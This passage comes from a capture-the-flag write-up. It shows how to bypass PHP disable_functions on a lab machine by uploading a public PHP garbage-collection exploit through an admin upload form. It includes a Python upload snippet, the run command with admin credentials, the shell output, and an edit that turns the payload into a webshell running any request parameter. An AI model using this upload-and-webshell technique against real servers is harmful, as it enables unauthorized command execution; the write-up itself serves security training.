 

### Path #2: Bypass disable_functions

#### POC

I [wrote](/bypassing-php-disable_functions-with-chankro.md)
about [Chankro](https://github.com/TarlogicSecurity/Chankro) a while
back and how it can bypass `disable_functions` in PHP. Unfortunately for
this case, it [relies
on](https://github.com/TarlogicSecurity/Chankro/blob/7b6e844e18f6812beb18db4b67b246edcec04b84/chankro.py#L70)
`putenv` in PHP, which is listed as blocked in the `phpinfo` output.
Still, there are other ways to bypass these filters. For example,
something like
[this](https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass) to
get execution. It's a webshell that goes through a bunch of work-arounds
to get execution without using any of the functions that get disabled
but rather exploiting a bug in PHP. At the top of the PHP code, it calls
`pwn("uname -a");`.

I'll update the exploit script to read in and send the shell from the
GitHub:



    with open("exploit.php", "r") as f:
        exploit = f.read()

    files = {
            'vqmod': (rand + ".php", exploit, "application/xml"),
            'token':one,
            'upload':(None,"Upload")
        }



On running it, it prints the output of `uname`:



    root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
    Shell => http://10.10.10.207/shop/admin/../vqmod/xml/PMBX7.php?c=id
    Linux compromised 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux



That's the output of `uname -a`.

#### Webshell

I'll replace `uname` with a payload that runs based on the request:



    #pwn("uname -a");
    pwn($_REQUEST['c']);


